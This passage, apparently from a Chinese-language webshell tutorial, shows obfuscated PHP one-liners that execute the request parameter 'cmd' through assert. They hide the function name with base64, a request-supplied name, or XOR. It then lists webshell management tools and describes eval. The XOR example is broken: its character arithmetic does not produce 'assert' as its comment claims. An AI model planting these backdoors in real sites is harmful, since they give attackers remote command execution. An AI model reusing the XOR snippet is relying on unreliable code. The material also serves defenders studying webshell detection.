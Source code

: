 #### 5.2 利用 Base64 编码

**示例**：
```php
<?php
$code = base64_decode("YXNzZXJ0"); // "assert" 的 Base64 编码
$code($_REQUEST['cmd']); // 相当于执行 assert($_REQUEST['cmd'])
?>
```

#### 5.3 利用替代数据来源

**示例**：
```php
<?php
$_REQUEST['a']($_REQUEST['cmd']); // 请求参数 a 的值可以是 assert、eval 等函数名
?>
```

#### 5.4 利用异或运算

**示例**：
```php
<?php
$func = chr(97) ^ chr(2); // 'a' 异或 2
$func .= chr(115) ^ chr(5); // 's' 异或 5
$func .= chr(115) ^ chr(5); // 's' 异或 5
$func .= chr(101) ^ chr(1); // 'e' 异或 1
$func .= chr(114) ^ chr(0); // 'r' 异或 0
$func .= chr(116) ^ chr(5); // 't' 异或 5
$func($_REQUEST['cmd']); // 相当于执行 assert($_REQUEST['cmd'])
?>
```

### 6. WebShell 管理工具

常见的 WebShell 管理工具包括：
- **蚁剑 (AntSword)**：开源、跨平台的 WebShell 管理工具。
- **C刀 (Cknife)**：跨平台的中国菜刀变种。
- **冰蝎 (Behinder)**：支持动态加密的 WebShell 管理工具，功能强大。
- **哥斯拉 (Godzilla)**：功能丰富，支持虚拟终端、数据库管理等。

这些工具通过连接 WebShell，提供图形化界面，方便攻击者执行命令、管理文件、操作数据库等。

`assert` 和 `eval` 都可以在 PHP 中执行字符串形式的代码，但它们的用途和行为略有不同：

### 7. `eval` 函数
- **作用**：`eval` 函数直接执行传入的字符串作为 PHP 代码。它可以执行任意合法的 PHP 代码，包括变量声明、函数调用、控制结构（如 if、for 循环）等。
- **返回值**：如果字符串的代码执行成功，`eval` 返回 `null`；如果代码执行中出现错误，`eval` 会抛出一个解析错误（Parse Error）。
- **典型用途**：一般用于动态执行用户输入或动态生成的 PHP 代码（尽管这通常是不安全的）。

#### 示例：
```php
<?php
$code = 'echo "Hello, World!";';
eval($code); // 输出: Hello, World!
```
